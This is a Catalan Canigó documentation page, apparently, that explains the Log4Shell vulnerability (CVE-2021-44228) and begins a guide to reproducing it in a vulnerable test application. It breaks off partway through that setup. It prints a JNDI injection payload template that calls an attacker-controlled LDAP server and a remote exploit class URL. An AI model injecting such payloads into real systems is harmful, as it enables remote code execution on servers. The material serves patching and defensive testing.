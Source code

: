 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que alloja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable, sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una clase Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://github.com/YfryTchsGD/Log4jAttackSurface> \
* <https://github.com/christophetd/log4shell-vulnerable-app> \
* <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
* <https://www.randori.com/blog/cve-2021-44228/>

## Com explotar la vulnerabilitat a una aplicació Canigó

* Crear una aplicació Canigó que utilitzi una versió de log4j vulnerable fent ús de l'archetype de Canigó:

```sh
# Canigó 3.6.0
mvn archetype:generate \
-DarchetypeGroupId=cat.gencat.ctti \
-DarchetypeArtifactId=plugin-canigo-archetype-rest \
-DarchetypeVersion=1.7.0 \
-DartifactId=CanigoLog4jShellTest \
-DgroupId=cat.gencat.ctti \
-Dversion=1.0.0 -B
```

* Modificar el servei de prova: `EquipamentServiceController` per a imprimir al log els paràmetres d'entrada
del servei de creació dels equipaments:
